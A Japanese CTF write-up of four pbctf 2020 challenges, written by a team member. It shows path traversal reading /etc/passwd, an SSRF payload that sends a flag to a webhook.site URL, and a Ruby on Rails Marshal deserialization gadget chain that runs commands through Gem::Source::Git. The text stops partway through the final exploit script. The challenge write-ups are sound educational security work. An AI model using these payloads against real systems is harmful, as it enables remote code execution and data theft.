








12 月 5 日から 12 月 7 日にかけて開催された [pbctf 2020](https://ctf.perfect.blue/) に、チーム zer0pts として参加しました。最終的にチームで 5610 点を獲得し、順位は 1 点以上得点した 457 チーム中 1 位でした。うち、私は 5 問を解いて 1113 点を入れました。

他のメンバーが書いた write-up はこちら。

- [ctf_writeups/pbctf_2020 at master · msrkp/ctf_writeups](https://github.com/msrkp/ctf_writeups/tree/master/pbctf_2020)
- [PBCTF 2020 Writeups · A Simple Collection](https://s3v3ru5.github.io/notes/pbctf2020)
- [pbctf 2020 Writeup - CTFするぞ](https://ptr-yudai.hatenablog.com/entry/2020/12/09/200118)

以下、私の write-up です。

## [Misc 36] GCombo (92 solves)
> One day I spied out my friend accessing some google form to enter his secret combination lock. Afterwards, I kept bothering him about it, and he finally decided to give the link to me. Maybe you can figure out his combo for me and get a tasty flag in return:
> 
> https://docs.google.com/forms/d/e/1FAIpQLSe7sOTLHmGjmUY3iE6E7QLqeYAZDfQXsiJrz8r-ZcA_4cXNFQ/viewform
> 
> By: theKidOfArcrania

フォームへのリンクが与えられました。アクセスしてみると、以下のように暗証番号の入力が求められました。



ソースを見るとわかるように、実は Google Form で作られたフォームでは `FB_PUBLIC_LOAD_DATA_` という変数にフォーム全体のデータが入っています。

```javascript
<script type="text/javascript" nonce="O7BNGcWK65qbkQ1GA7bH1A">var FB_PUBLIC_LOAD_DATA_ = [null,[null,[[938169490,null,null,2,[[1420416147,[["1",null,1935811336,null,0]
,["2",null,1935811336,null,0]
,["3",null,1935811336,null,0]
,["4",null,1935811336,null,0]
,["5",null,1114266997,null,0]
,["6",null,1935811336,null,0]
,["7",null,1935811336,null,0]
,["8",null,1935811336,null,0]
,["9",null,1935811336,null,0]
,["0",null,1935811336,null,0]
]
,1,null,null,null,null,null,0]
]
//...
</script>
```

`1420416147` はおそらくセクションなどの ID、`["1",null,1935811336,null,0]` などの選択肢に含まれている `1935811336` というような数値は、その選択肢を選んだときにジャンプするセクションの ID でしょう。

`pbctf` で検索してみると、以下のように `pbctf{<digits you got along the way>_<password>}` がフラグのフォーマットであることがわかります。`digits you got along the way` というのは暗証番号でしょうが、`password` というのはなんでしょうか。

```javascript
["Congratulations! The flag is pbctf{\u003cdigits you got along the way\u003e_\u003cpassword\u003e}",1,0,0,0]
```

`password` で検索してみると、以下のようにパスワードの入力フォームのデータと思われるものが見つかりました。`s3cuR3_p1n_id_2_3v3ry0ne` がパスワードでしょう。

```javascript
[751651474,null,null,8]
,[766405565,"Password Please",null,0,[[1674649702,null,1,null,[[4,301,["s3cuR3_p1n_id_2_3v3ry0ne"]
,"Invalid password!"]
]
]
]
]
```

このパスワードの入力フォームに到達できるような暗証番号をプログラムで探してみましょう。

```python
import json

with open('prog.json') as f:
  data = json.load(f)[1][1]

inv_table = {}
for i, block in enumerate(data[1:]):
  if block[3] != 2:
    continue

  nums = block[4][0][1]
  for num in nums:
    if num[2] not in inv_table:
      inv_table[num[2]] = []
    inv_table[num[2]].append({
      'num': num[0],
      'from': data[i][0]
    })

x = 751651474
res = []
while x in inv_table:
  tmp = inv_table[x][0]
  num = tmp['num']
  x = tmp['from']
  res.append(num)
print(''.join(res[::-1]))
```

```
$ python find.py
812693370
```

この通りに選択してもパスワードの入力フォームは表示されません。手作業で確認すると、最初の `5` が抜けていることがわかりました。

```
pbctf{5812693370_s3cuR3_p1n_id_2_3v3ry0ne}
```

## [Web 58] Apoche I (52 solves)
> Try hacking my old version of apoche. Here are a list of running services. DM an admin if none of those work:
> 
> (URL)
> 
> Hint: There's something fishy about this apoche instance, if only there was a way to view the binary...
> 
> By: theKidOfArcrania

ソースコードやバイナリといった添付ファイルは与えられていません。サーバがあまりに不安定なのでまず `wget -r` で一旦コンテンツをダウンロードしておこうと試してみたところ、`robots.txt` の存在がわかりました。内容は以下の通りで、`/secret/` というディレクトリが存在していることがわかります。

```
User-agent: *
Disallow: /secret/
```

`/secret/` にアクセスするとファイルのインデックスが表示されました。`0.txt` から `5.txt` まで 6 つのテキストファイルがあるようですが、特に `5.txt` に気になる内容が書いてありました。

```
2020-01-02

It's the second day of the NEW YEAER! quite exciting

I just noticed somebody was trying to access my /var/www/secret data 😢
so I decided to filter out '/' and '.' characters in the beginning of the path.

Maybe I should stop logging stuff here... not safe 

--
theKidOfArcrania
```

要求されたパスが `/` と `.` から始まる場合について対応したというメモが書いてあります。Path traversal でしょうか。

`curl --path-as-is http://(省略)/../../../../../etc/passwd` のように Path traversal を試してみましたが、メモに書かれているように対策されているようで 404 が返ってきます。

ただ、`/secret/` のように実際に存在しているディレクトリから `../` でさかのぼっていく場合についてはどうでしょうか。試してみましょう。

```
$ curl --path-as-is http://(省略)/secret/../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```

`/etc/passwd` を取得することができました。

問題文のヒントを見るに、あとはこの Web サーバのバイナリを取得すればよさそうです。`/proc/self/exe` を試してみると、以下のようにフラグが得られました。

```
$ curl --path-as-is http://(省略)/secret/../../../../../proc/self/exe 2>&1 | strings | grep pbctf
Btw, the first flag is pbctf{n0t_re4lly_apache_ap0che!}
```

```
pbctf{n0t_re4lly_apache_ap0che!}
```

## [Web 156] Sploosh (76 solves)
> I wanted to make my own URL scraper, but parsing HTML is hard, so I used some random open source scraping project instead.
> 
> (URL)
> 
> By: Corb3nik

与えられた URL にアクセスすると、以下のように URL の入力フォームが表示されました。URL を入力して送信するとスクレイピングされ、画面サイズの情報だけが返ってくるようです。その情報いるかな。



ソースコードもついでに配布されています。まず `docker-compose.yml` を見てみると、[Splash](https://github.com/scrapinghub/splash) とよばれる Web スクレイピング用のサービスが動いていることがわかります。

```yaml
version: "3.8"
services:
  webapp:
    build: .
    env_file:
      - ./flag.env
    networks:
      sploosh_internal:
        ipv4_address: 172.16.0.14

    ports:
      - 9000:80
    volumes:
      - ./src:/var/www/html/:ro

  splash:
    image: scrapinghub/splash
    networks:
      sploosh_internal:
        ipv4_address: 172.16.0.13
```

`webapp` については、`index.php`、`api.php`、`flag.php` の 3 つの PHP ファイルが Web サーバ上に展開されているようです。`flag.php` は以下のような内容で、`webapp` もしくは `splash` のみから閲覧可能であることがわかります。

URL の入力フォームに `http://webapp/flag.php` を入力すれば OK では? と思ってしまいますが、`0,0,1024,768` のように画面サイズだけ得られても意味がありません。

```php
<?php

$FLAG = getenv("FLAG");

$remote_ip = $_SERVER['REMOTE_ADDR'];
if ($remote_ip === "172.16.0.13" || $remote_ip === '172.16.0.14') {
  echo $FLAG;
} else {
  echo "No flag for you :)";
}
?>
```

`api.php` は以下のような内容でした。`http://splash:8050/render.json` という Splash の API を叩いています。GET パラメータの操作もできるのではないかと考えましたが、`$_GET['url']` は `urlencode` に通されているのでできません。

```php
<?php
error_reporting(0);

header("Content-Type: application/json");

function fail() {
  echo "{}";
  die();
}

if (!isset($_GET['url'])) {
  fail();
}


$url = $_GET['url'];

if ($url === '') {
  fail();
}

try {
  $json = file_get_contents("http://splash:8050/render.json?timeout=1&url=" . urlencode($url));
  $out = array("geometry" => json_decode($json)->geometry);
  echo json_encode($out);
} catch(Exception $e) {
  fail();
}
?>
```

脆弱性なんてないのでは…? と思ってしまいますが、`api.php` は外部の URL の入力も許していることに注目します。`` というような HTML を返す外部の Web サーバの URL を入力すれば、CSRF によって `api.php` を経由せず Splash にスクレイピングさせることができないでしょうか。

`` というような HTML で試してみると、`Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/602.1 (KHTML, like Gecko) splash Version/10.0` という User-Agent を持つ HTTP リクエストが来ました。どうやら CSRF できているようです。

CSRF によってなにか悪いことができないか Splash のドキュメントを呼んでいると、[`/render.html`](https://splash.readthedocs.io/en/stable/api.html#render-html) というエンドポイントでは `js_source` という GET パラメータを与えると、スクレイピング対象のページのコンテキストで JavaScript コードが実行されることがわかりました。

あとはやるだけです。以下のような HTML を返す Web サーバの URL を送信すると、フラグを GET パラメータとして持った HTTP リクエストが飛んできました。

```html
<iframe src="http://splash:8050/render.html?url=http://webapp/flag.php&js_source=a=new%20XMLHttpRequest,a.open(`GET`,`/flag.php`,false),a.send(null),document.body.innerHTML+=[String.fromCharCode(60),`img%20src=https://webhook.site/...?${encodeURIComponent(a.responseText)}`,String.fromCharCode(62)].join(String())"></iframe>
```

```
pbctf{1_h0p3_y0u_us3d_lua_f0r_th1s}
```

いいえ…。

## [Web 420] r0bynotes (4 solves)
> Rails is secure by default so it's perfect for my amazing notes app
> 
> (URL)
> 
> Note: If you find the flag, please remove the `flag{..}` wrapper and wrap it with `pbctf{...}` instead
> 
> By: vakzz
> 
> 添付ファイル: dist.zip

与えられた URL にアクセスすると、以下のようにノートとユーザの作成ページへのリンクが表示されました。



ノートの作成の場合には、作者と内容を入力すると `/notes/ec8b7effe5970ba18313eb968718b862` というような URL に遷移し、入力した内容が表示されます。

ユーザの作成の場合には、ユーザ名と名前を入力すると `/users/usernamedb980f0ff514db35feb36b9b48a0aa39` のような URL に遷移し、入力した内容が表示されます。

ソースコードが添付ファイルとして与えられています。`Gemfile` を見ると、以下のように Ruby 2.7.2 と Ruby on Rails 6.1.0 が使われていることがわかります。

```
source 'https://rubygems.org'
git_source(:github) { |repo| "https://github.com/#{repo}.git" }

ruby '2.7.2'

# Bundle edge Rails instead: gem 'rails', github: 'rails/rails'
gem 'rails', '~> 6.1.0.rc1'
# Use sqlite3 as the database for Active Record
gem 'sqlite3', '~> 1.4'
# Use Puma as the app server
gem 'puma', '~> 5.0'
# Use SCSS for stylesheets
gem 'sass-rails', '>= 6'
# Use Active Model has_secure_password
# gem 'bcrypt', '~> 3.1.7'

group :development, :test do
  # Call 'byebug' anywhere in the code to stop execution and get a debugger console
  gem 'byebug', platforms: [:mri, :mingw, :x64_mingw]
end

group :development do
  gem 'listen', '~> 3.2'
end

# Windows does not include zoneinfo files, so bundle the tzinfo-data gem
gem 'tzinfo-data', platforms: [:mingw, :mswin, :x64_mingw, :jruby]

gem 'redis'
```

フラグの場所についても確認してみましょう。`Dockerfile` を見てみると、以下のようにルートディレクトリに `/read_file` と `/flag.txt` というファイルが存在していることがわかります。

`/read_file` は `/flag.txt` を読んで出力するだけのバイナリです。`/flag.txt` が `chmod 400` されており、また `/read_flag` は SUID が設定されていることから、`/read_flag` を実行してその出力を得るのがこの問題の目標であることがわかります。

```
FROM ruby:2.7.2

#...

COPY ./flag.txt /flag.txt
RUN chmod 400 /flag.txt

COPY ./read_flag /read_flag
RUN chmod 4555 /read_flag

#...

# comment out for dev mode
ENV RAILS_ENV production

# Start the main process.
CMD ["rails", "server", "-b", "0.0.0.0"]
```

### Insecure Deserialization したい
`app/models/note.rb` と `app/controllers/notes_controller.rb` でノートの作成時と閲覧時にどのような処理が行われているか確認しましょう。

まず作成時について見てみると、`create` メソッドから呼び出された `new_note` メソッドで `Note` というオブジェクトを作成して 32 文字のランダムな hex 文字列を `@id` に、作者と内容についても `valid_attributes?` メソッドによってあらかじめ文字列をチェックした上でそれぞれ `@author` と `@body` に設定しています。これを `Marshal.dump` によってシリアライズして、`/notes/(ID)` をキーとして `Rails.cache` にキャッシュしています。

閲覧時について見てみると、`show` メソッドから呼び出された `existing_note` メソッドで URL のパスとして与えられたキーを使って `Rails.cache` からキャッシュされた値を取得し、`Marshal.load` によってデシリアライズしています。

```ruby
# app/models/note.rb
class Note
    attr_accessor :author, :body, :date, :id

    def initialize(author:, body:, date: Time.now)
        @id = SecureRandom.hex
        @author = author
        @body = body
        @date = date
    end
end
```

```ruby
# app/controllers/notes_controller.rb
class NotesController < ApplicationController
    before_action :note_exists?, only: :show
    before_action :valid_note_id?, only: :show
    before_action :valid_attributes?, only: :create

    def new
    end

    def show
        existing_note
    end

    def create
        Rails.cache.write("/notes/#{new_note.id}", Marshal.dump(new_note), expires_in: 5.minutes)
        redirect_to action: "show", id: new_note.id
    end

    private

    def note_id
        @note_id ||= params[:id]
    end

    def note_data
        @note_data ||= Rails.cache.read("/notes/#{note_id}")
    end

    def existing_note
        @existing_note ||= Marshal.load(note_data)
    end

    def note_params
        @note_params ||= params.require(:note).permit(:author, :body)
    end

    def new_note
        @new_note ||= Note.new(**note_params.to_h.symbolize_keys)
    end

    def valid_note_id?
        raise ActionController::BadRequest.new("invalid note id") if note_id&.count("^a-z0-9") > 0
    end

    def note_exists?
        raise ActionController::RoutingError.new("note not found") unless note_data
    end

    def valid_attributes?
        raise ActionController::BadRequest.new("invalid attributes") if note_params[:author].length + note_params[:body].length > 500
    end

end
```

`Marshal.load` といえば Insecure Deserialization です。以下の 2 本の記事を読めばわかるように、Ruby にも Ruby on Rails にも Insecure Deserialization に使える gadget が豊富に存在しており、RCE 可能な gadget chain が見つかっています。

- Ruby on Rails: [Attacking Ruby on Rails Applications - Phrack Magazine](http://phrack.org/issues/69/12.html)
- Ruby: [Ruby 2.x Universal RCE Deserialization Gadget Chain](https://www.elttam.com/blog/ruby-deserialization/)

この問題でも使えるかもしれませんが、Rails のキャッシュに `/notes/...` というようなキーで任意の内容をキャッシュさせることができなければ発火させられません。`app/controllers/notes_controller.rb` にはそのようなことができそうな処理は見当たりません。

`app/controllers/users_controller.rb` でユーザの作成時にどのような処理が行われているか確認しましょう。

`create` メソッドでは、`cache_key` メソッドの返り値をキーに、`user_params[:name]` とユーザの名前を値として `Redis.cache` にキャッシュしています。ユーザの名前の方は容易に操作できますが、`cache_key` メソッドの返り値についてはどうでしょうか。詳しく見てみます。

`cache_key` メソッドからは `user_id` メソッドが呼び出され、`user_id` メソッドからは `raw_user_id` メソッドが呼び出されています。`raw_user_id` メソッドでは `id` パラメータが与えられていればそれを、与えられていなければ `(ユーザ名)(32 文字のランダムな hex 文字列)` を返しています。

```ruby
class UsersController < ApplicationController
    before_action :user_exists?, only: :show
    before_action :valid_user_id?, only: [:show, :create]
    before_action :valid_attributes?, only: :create

    def new
    end

    def show
        existing_user
    end

    def create
        Rails.cache.write(cache_key, user_params[:name], expires_in: 5.minutes)
        redirect_to action: "show", id: user_id
    end

    private
    def existing_user
        @existing_user ||= Rails.cache.read(cache_key)
    end

    def user_params
        @user_params ||= params.require(:user).permit(:username, :name)
    end

    def raw_user_id
        params[:id] || sprintf("#{user_params[:username]}%1$s", SecureRandom.hex)
    end

    def user_id
        @user_id ||= raw_user_id[0..100]
    end

    def cache_key
        @cache_key ||= user_id
    end

    def valid_user_id?
        raise ActionController::BadRequest.new("invalid username") if raw_user_id&.count("^a-z0-9") > 0
    end

    def user_exists?
        raise ActionController::RoutingError.new("user not found") unless existing_user
    end

    def valid_attributes?
        raise ActionController::BadRequest.new("invalid attributes") if user_params[:username].length + user_params[:name].length > 500
    end

end
```

なるほど、`id` パラメータに `/notes/hogehoge` を、`name` パラメータにオブジェクトをシリアライズした文字列を与えればよいのかと思ってしまいますが、そこまでうまくはいきません。`valid_user_id?` というメソッドによって `a-z0-9` 以外の文字が含まれていないかチェックされているためです。

ただ、もし `id[]` のように `id` が配列ならばどうでしょうか。`Array` も `String` と同様に `count` というメソッドを持っていますし、`['/'].count('^a-z0-9')` は `0` になって (たとえ要素のひとつである文字列が `/` という文字を含んでいても) `valid_user_id?` のチェックをバイパスできます。

`Rails.cache` の実装を見てみると、[`ActiveSupport::Cache::Store` の `write` メソッド](https://github.com/rails/rails/blob/914caca2d31bd753f47f9168f2a375921d9e91cc/activesupport/lib/active_support/cache.rb#L465-L472)ではまず [`normalize_key` メソッド](https://github.com/rails/rails/blob/914caca2d31bd753f47f9168f2a375921d9e91cc/activesupport/lib/active_support/cache.rb#L649-L651)によって書き込まれるキーの処理がされていることがわかります。`normalize_key` メソッドからはさらに [`expanded_key` メソッド](https://github.com/rails/rails/blob/914caca2d31bd753f47f9168f2a375921d9e91cc/activesupport/lib/active_support/cache.rb#L684-L699)が呼び出されていますが、よく見ると最終的に `to_param` というメソッドによって文字列化されていることがわかります。

ということで、`id[]=/notes/abc` のように `id` パラメータを配列にしてやれば Insecure Deserialization ができるはずです。試してみましょう。

まず適当な `Note` オブジェクトをシリアライズしてやります。

```ruby
require 'base64'
require 'date'

class Note
    attr_accessor :author, :body, :date, :id

    def initialize(author:, body:, id:, date: Time.now)
        @id = id
        @author = author
        @body = body
        @date = date
    end
end

Base64.encode64 Marshal.dump(Note.new(author: 'A', body: 'B', id: 'C', date: DateTime.new))
```

出力された文字列を `user[name]` に入れて POST するようなスクリプトを書きます。

```python
import base64
import re
import requests
BASE = 'https://(省略)'

sess = requests.Session()
req = sess.get(BASE + '/users/new')
token = re.findall(r'name="authenticity_token" value="(.+?)"', req.text)[0]
req = sess.post(BASE + '/users', data={
  'authenticity_token': token,
  'user[username]': 'poyo',
  'user[name]': base64.b64decode("BAhvOglOb3RlCToIQGlkSSIGQwY6BkVUOgxAYXV0aG9ySSIGQQY7B1Q6CkBi\nb2R5SSIGQgY7B1Q6CkBkYXRlVToNRGF0ZVRpbWVbC2kAaQBpAGkAaQBmDDIy\nOTkxNjE=\n"),
  'id[]': '/notes/abc'
})
print(req)
```

これを実行してから `/notes/abc` にアクセスすると、以下のように Insecure Deserialization によってノートの偽造ができていることが確認できました。



### gadget chain を組む
あとはやるだけかと思いきや、先程紹介したふたつの記事のいずれのペイロードを仕込んでも何も起こりません。エラーが発生するだけです。

原因を探っていると、OS コマンドの実行のために重要な gadget である `ERB` (`result` メソッドは `@src` を `eval` する) も `Gem::StubSpecification` (`data` メソッドは `Kernel#open` を呼ぶ) も[既に](https://github.com/ruby/ruby/commit/b3507bf147ff47e331da36ba7c8e6b700c513633)[対策](https://github.com/rubygems/rubygems/commit/bfb3f6749483f562e32141db6d876f7e08709bfc)されていることがわかりました。自分で新しい gadget を見つける必要があるようです。

幸いにも `ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy` という Phrack Magazine で紹介されている以下のような[大変便利な gadget](https://github.com/rails/rails/blob/dce3bab97044513ac4c6d61fdcce4cbc8b81627d/activesupport/lib/active_support/deprecation/proxy_wrappers.rb#L22-L25) はまだ使えます。

```ruby
        def method_missing(called, *args, &block)
          warn caller_locations, called, args
          target.__send__(called, *args, &block)
        end
```

また、[ユニバーサルな gadget chain についての記事](https://www.elttam.com/blog/ruby-deserialization/)で見つかった gadget として `Gem::Source::Git` というクラスに存在する `cache` というメソッドが紹介されていましたが、こちらも[修正されていません](https://github.com/rubygems/rubygems/blob/6914b4ec439ae1e7079b3c08576cb3fbce68aa69/lib/rubygems/source/git.rb#L117-L129)。

ただ、`cache` は以下のように `Kernel#system` を使っているために OS コマンドが成功したか失敗したかという情報しか得られず、また可変長引数を使って呼び出されているために `@git` が実行するファイルのパスとして解釈され、`bash -c "..."` のような OS コマンドを仕込むことができず、あまり便利な gadget ではありません。

```ruby
  def cache # :nodoc:
    return unless @remote

    if File.exist? repo_cache_dir
      Dir.chdir repo_cache_dir do
        system @git, 'fetch', '--quiet', '--force', '--tags',
               @repository, 'refs/heads/*:refs/heads/*'
      end
    else
      system @git, 'clone', '--quiet', '--bare', '--no-hardlinks',
             @repository, repo_cache_dir
    end
  end
```

同じ `lib/rubygems/source/git.rb` を眺めていると、[`rev_parse` メソッド](https://github.com/rubygems/rubygems/blob/6914b4ec439ae1e7079b3c08576cb3fbce68aa69/lib/rubygems/source/git.rb#L180-L192)という以下のような gadget が見つかりました。`Dir.chdir` されているために `repo_cache_dir` メソッドの返り値が存在するディレクトリでなければならないという条件はありますが、それさえクリアすれば [`Gem::Util.popen`](https://github.com/rubygems/rubygems/blob/6914b4ec439ae1e7079b3c08576cb3fbce68aa69/lib/rubygems/util.rb#L55-L57) という OS コマンドによる出力を文字列として返してくれる便利なメソッドを呼んでくれます。

```ruby
  def rev_parse # :nodoc:
    hash = nil

    Dir.chdir repo_cache_dir do
      hash = Gem::Util.popen(@git, 'rev-parse', @reference).strip
    end

    raise Gem::Exception,
          "unable to find reference #{@reference} in #{@repository}" unless
            $?.success?

    hash
  end
```

[`repo_cache_dir` メソッド](https://github.com/rubygems/rubygems/blob/6914b4ec439ae1e7079b3c08576cb3fbce68aa69/lib/rubygems/source/git.rb#L173-L175)の定義は以下のとおりです。[`uri_hash` メソッド](https://github.com/rubygems/rubygems/blob/6914b4ec439ae1e7079b3c08576cb3fbce68aa69/lib/rubygems/source/git.rb#L227-L239)の定義も載せていますが、`repo_cache_dir` メソッドが返すパスを好きなものに操作するのは難しいことがわかります。

```ruby
  def repo_cache_dir # :nodoc:
    File.join @root_dir, 'cache', 'bundler', 'git', "#{@name}-#{uri_hash}"
  end

# ...

  def uri_hash # :nodoc:
    require 'digest' # required here to avoid deadlocking in Gem.activate_bin_path (because digest is a gem on 2.5+)

    normalized =
      if @repository =~ %r{^\w+://(\w+@)?}
        uri = URI(@repository).normalize.to_s.sub %r{/$},''
        uri.sub(/\A(\w+)/) { $1.downcase }
      else
        @repository
      end

    Digest::SHA1.hexdigest normalized
  end
```

しかしながら、`cache` メソッドもこのメソッドを呼び出しており、もしその返り値であるディレクトリが存在していなければ `git clone` するという処理をしています。なので、まず `cache` メソッドの `git clone` によって `repo_cache_dir` メソッドの返すディレクトリを作成し、次に `rev_parse` メソッドを呼び出すという順番で呼び出してやれば、`Gem::Util.popen` メソッドを呼び出させることができるはずです。

それでは、gadget chain を組み立てましょう。

```ruby
require "base64"
require 'date'

class Note
  attr_accessor :author, :body, :date, :id

  def initialize(author:, body:, id:, date: Time.now)
    @id = id
    @author = author
    @body = body
    @date = date
  end
end

class ActiveSupport
  class Deprecation
    def initialize()
      @silenced = true
    end
    class DeprecatedInstanceVariableProxy
      def initialize(instance, method)
        @instance = instance
        @method = method
        @deprecator = ActiveSupport::Deprecation.new
      end
    end
  end
end

###
# 1st payload
###
obj = Gem::Source::Git.allocate
obj.instance_variable_set :@git, "git"
obj.instance_variable_set :@repository, "https://github.com/jwt/ruby-jwt"
obj.instance_variable_set :@remote, ""
# for repo_cache_dir
obj.instance_variable_set :@root_dir, "/app/tmp"
obj.instance_variable_set :@name, ""

depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.allocate
depr.instance_variable_set :@instance, obj
depr.instance_variable_set :@method, :cache
depr.instance_variable_set :@var, "@cache"
depr.instance_variable_set :@deprecator, ActiveSupport::Deprecation.new

puts Base64.encode64(Marshal.dump(Note.new(author: depr, body: 'B', id: 'C', date: DateTime.new))).gsub(/\n/, '')

###
# 2nd payload
###
obj = Gem::Source::Git.allocate
obj.instance_variable_set :@git, "/read_flag"
obj.instance_variable_set :@repository, "https://github.com/jwt/ruby-jwt"
obj.instance_variable_set :@remote, ""
# for repo_cache_dir
obj.instance_variable_set :@root_dir, "/app/tmp"
obj.instance_variable_set :@name, ""
# for rev_parse
obj.instance_variable_set :@reference, ""

depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.allocate
depr.instance_variable_set :@instance, obj
depr.instance_variable_set :@method, :rev_parse
depr.instance_variable_set :@var, "@rev_parse"
depr.instance_variable_set :@deprecator, ActiveSupport::Deprecation.new

puts Base64.encode64(Marshal.dump(Note.new(author: depr, body: 'B', id: 'C', date: DateTime.new))).gsub(/\n/, '')
```

```python
# coding: utf-8
import base64
import random
import re
import requests
BASE = 'http://(省略)'
PATH = '/notes/poyoyon' + ''.join(random.choice('abcdefghijklmnopqrstuvwxyz') for _ in range(5))

sess = requests.Session()

req = sess.get(BASE + '/users/new')
token = re.findall(r'name="authenticity_token" value="(.+?)"', req.text)[0]
sess.post(BASE + '/users', data={
  'authenticity_token': token,
  'user[username]': 'poyo',
  'user[name]': base64.b64decode("BAhvOglOb3RlCToIQGlkSSIGQwY6BkVUOgxAYXV0aG9ybzpAQWN0aXZlU3VwcG9ydDo6RGVwcmVjYXRpb246OkRlcHJlY2F0ZWRJbnN0YW5jZVZhcmlhYmxlUHJveHkJOg5AaW5zdGFuY2VvOhVHZW06OlNvdXJjZTo6R2l0CjoJQGdpdEkiCGdpdAY7B1Q6EEByZXBvc2l0b3J5SSIkaHR0cHM6Ly9naXRodWIuY29tL2p3dC9ydWJ5LWp3dAY7B1Q6DEByZW1vdGVJIgAGOwdUOg5Acm9vdF9kaXJJIg0vYXBwL3RtcAY7B1Q6CkBuYW1lSSIABjsHVDoMQG1ldGhvZDoKY2FjaGU6CUB2YXJJIgtAY2FjaGUGOwdUOhBAZGVwcmVjYXRvcm86H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uBjoOQHNpbGVuY2VkVDoKQGJvZHlJIgZCBjsHVDoKQGRhdGVVOg1EYXRlVGltZVsLaQBpAGkAaQBpAGYMMjI5OTE2MQ=="),
  'id[]': PATH
})
sess.get(BASE + PATH)

req = sess.get(BASE + '/users/new')
token = re.findall(r'name="authenticity_token" value="(.+?)"', req.text)[0]
sess.post(BASE + '/users', data={
  'authenticity_token': token,
  'user[username]': 'poyo',
